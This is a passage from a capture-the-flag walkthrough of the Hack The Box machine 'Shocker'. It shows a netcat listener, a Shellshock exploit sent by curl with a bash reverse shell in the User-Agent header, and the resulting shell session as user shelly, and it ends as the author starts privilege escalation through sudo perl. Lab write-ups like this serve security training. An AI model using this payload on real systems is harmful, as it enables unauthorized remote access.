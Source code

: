~~~
└─$ nc -lvp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
~~~
As soon as the netcat listener is active and listening on port 9999, it is time to create a reverse shell back to my listener. I use a simple Bash reverse shell which is most of the time very stable.
~~~
┌──(emvee㉿kali)-[~]
└─$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.66/9999 0>&1' http://$ip/cgi-bin/user.sh
~~~
After running the command to exploit the shellshock vulnerability I have to check my netcat listener on Kali.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.129.49.36.
Ncat: Connection from 10.129.49.36:41226.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
~~~
It looks like a connection has been established to my netcat listener. Now it's time to see who I am on the machine.
~~~
shelly@Shocker:/usr/lib/cgi-bin$ whoami;id;hostname;pwd
whoami;id;hostname;pwd
shelly
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
Shocker
/usr/lib/cgi-bin
~~~
It looks like I am shelly on the machine shocker and I am a member of a few groups as well. Before escalting the privileges I want to capture the user flag.
The user flag is stored in the user directory.
~~~
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
< ---- USER FLAG ---- >
shelly@Shocker:/home/shelly$ 
~~~
After capturing the user flag it's time to gain more privilges on the system. 
Let's check what privileges I have with **sudo -l**. Sometimes it requires a password to run, but if it is not needed, it is an awesome privilege to use.
~~~
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
~~~
While using my Google Fu to look for [GTFOBINS perl sudo](https://gtfobins.github.io/gtfobins/perl/#sudo) I opened the website.